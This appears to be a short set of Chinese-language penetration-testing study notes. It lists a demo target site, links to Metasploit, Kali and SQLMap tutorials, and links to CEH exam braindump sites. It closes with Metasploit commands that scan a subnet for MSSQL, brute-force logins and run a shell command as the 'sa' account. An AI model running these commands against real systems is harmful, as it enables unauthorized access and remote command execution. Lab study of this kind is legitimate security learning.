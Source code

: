
#### 靶機 [Altoro Mutual](http://demo.testfire.net/)

[kali linux web渗透测试学习笔记 - 花米徐xl_lx的专栏 - CSDN博客](https://blog.csdn.net/xl_lx/article/details/78399609)

[不只是資安: Metasploit 初體驗](http://cyrilwang.blogspot.com/2008/12/metasploit.html)

[Metasploit的基本使用](http://topspeedsnail.com/kali-linux-metasploit-base-use/)

[雅技資訊日誌: SQLMap 實戰(可怕的 SQL Injection漏洞)](http://atic-tw.blogspot.com/2014/04/sqlmap-sql-injection.html)

[2019 高命中率的Certified Ethical Hacker Exam (CEH v10)題庫平臺 - 最新的312-50v10認證新題庫已出](https://braindumps.testpdf.net/certified-ethical-hacker-exam-ceh-v10-brain-dumps-9810.html?adhit=hat)

[2019 想要順利的拿到Certified Ethical Hacker Exam (CEH v10)考試證書 - 312-50v10考古題是你的第一選擇](https://actualtests.pdfexamdumps.com/certified-ethical-hacker-exam-ceh-v10-actual-9810.html?adhit=hat)

### metasploit msfconsole 命令
https://hk.saowen.com/a/15f0478abbb7f374a272da34d296b07b8be034e35688e372f120ddecf1c64996

#### mssql開發利用

對各個ip是否有mssql服務的探測
```sh
use scanner/mssql/mssql_ping //測試MSSQL的存在和信息
show options
set rhosts 192.168.2.1-255
set threads 30
exploit
對掃描到的ip進行爆破
use scanner/mssql/mssql_login //具體配置show options。
sa權限對其利用
use admin/mssql/mssql_exec
set rhost 192.168.2.10
set password sa
set CMD cmd.exe /c echo hello
exploit
```
